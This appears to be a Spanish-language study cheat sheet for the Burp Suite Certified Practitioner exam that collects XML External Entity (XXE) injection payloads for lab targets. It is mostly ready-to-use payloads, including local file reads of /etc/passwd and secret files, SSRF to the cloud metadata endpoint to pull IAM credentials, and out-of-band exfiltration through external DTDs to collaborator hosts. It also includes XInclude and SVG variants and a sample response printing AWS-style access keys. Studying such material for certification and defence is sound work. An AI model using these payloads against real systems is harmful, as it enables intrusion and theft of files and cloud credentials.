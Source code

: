 ## ¿Qué es XML?

XML significa "lenguaje de marcado extensible". XML es un lenguaje diseñado para almacenar y transportar datos. Al igual que HTML, XML utiliza una estructura de etiquetas y datos similares a árboles. A diferencia de HTML, XML no usa etiquetas predefinidas, por lo que las etiquetas pueden recibir nombres que describan los datos. Anteriormente en la historia de la web, XML estaba de moda como un formato de transporte de datos (el "X" en "AJAX" significa "XML"). Pero su popularidad ha declinado ahora a favor del formato JSON.

#### Si ninguno de estos ataques funciona y el ataque es `detected attack` toca un SQLi injection encodeado a Hex, en la sección de SQLi lo tengo detallado. 

#sqli

```xml
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://169.254.169.254/">]>
No olvidar llamar la variable &xxe; dentro de <productId>&xxe;<productId/>
```

- XXE -> Basic LFI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> SSRF

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Seguir el endpoint hasta donde podemos llegar, en el lab por ejm es así: 
<!DOCTYPE foo [ <!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

- XXE -> Out of Band Interaction

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://COLLABORATOR'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> Blind with out-of-band interaction

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://BURP-COLLAB'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck> 
```

- XXE -> Out of Band Interaction via parameter entity `external service interaction`

![burp-scan](Pasted%20image%2020250221075203.png)

```html
<?xml version="1.0" encoding="UTF-8"?>
simplemente añadimos este encima de <stockCheck>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://COLLABORATOR"> %xxe; ]>

```

- XXE -> Exfiltrate data with .DTD `server exploit` `external service interaction`

	* Puede que haya submit feedback, como distractor con subida de imagenes y que tales. 

```js
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://COLLABORATOR?x=%file;'>">
%eval;
%exfiltrate;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente: 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>

//luego analizar nuestro burp collaborator para ver si nos llega algo interesante de lo que pasamos. 

//PARA EL BSCP: 
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://OASTIFY.COM/?x=%file;'>">
%eval;
%exfil;
```

- XXE -> Exfiltrate data via error messages `server exploit` `External service interaction`

```xml
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///invalid/%file;'>">
%eval;
%error;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % testingFelipe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %testingFelipe;]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>
```

- XXE -> Use XInclude in a parameter (url encode the payload) `ProductId`
	- Podemos encodear el payload a url, o no, ya depende. 

```js
?productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

//FOR BSCP: 
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>

or

<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="{filePath}" parse="text"/>

```

* XXE -> Retrieving Data by a local DTD `docbookx.dtd` 
	El archivo local puede variar, dependiendo del lab. 

*![[Pasted image 20250216124148.png]]

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> //si obtenemos un 200ok perfecto. 

//Ahora si, tiramos el comando esencial para producir el error de parsing de file local y desencadene el disclosure ->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> 
//En este caso no necesitamos de un server externo para alojar el file ya que nos referimos a un archivo local existente en el server, basta con hacer la request directamente en el xml.
```

- XXE -> XXE on SVG

```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE to perform SSRF

```xml
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/admin'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Gives = "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2024-01-04T10:03:06.016826989Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ZgBxuLo1qUbadDsb5agi",
  "SecretAccessKey" : "62J0cLHKUttLOoKaXvTc55LgWDRLEuv7S6jfIQSc",
  "Token" : "tyIjMrJIsrPDFGSmR9u4hqFqjzxIx7yO9h8dshFOBPTNkBpvCY0jou4GcFhxBkzetcXYr8oWTS1uWYhyyxiStHap8tv6q83xWT8dHus70bXuuZjeD6w0jTzuQy1vakLar6k2apXbrrhj3fpZVNM7XKwPVTFPg2degLdeMSPCXRWgsD5D2Uoyjd9LkFMwLsdk2hFpIGW89uvX1xY4EKTNzipFL3irC3C2Jr49uCCtvDCGCEa6iwLeySLjttI5LUS7",
  "Expiration" : "2030-01-02T10:03:06.016826989Z"
}"


<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///Windows/System32/drivers/etc/hosts" > ]>

```

* ##### Abusing XInclude

```xml 
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

* ##### XXE on svg image

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
 
 * #### xmlns load etc/passwd

```xml
<rpo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></rpo>
```

eso sería todo,  si lees esto significa que estás revisando mi repo por todo lado, bueno mucha suerte en tu examen! 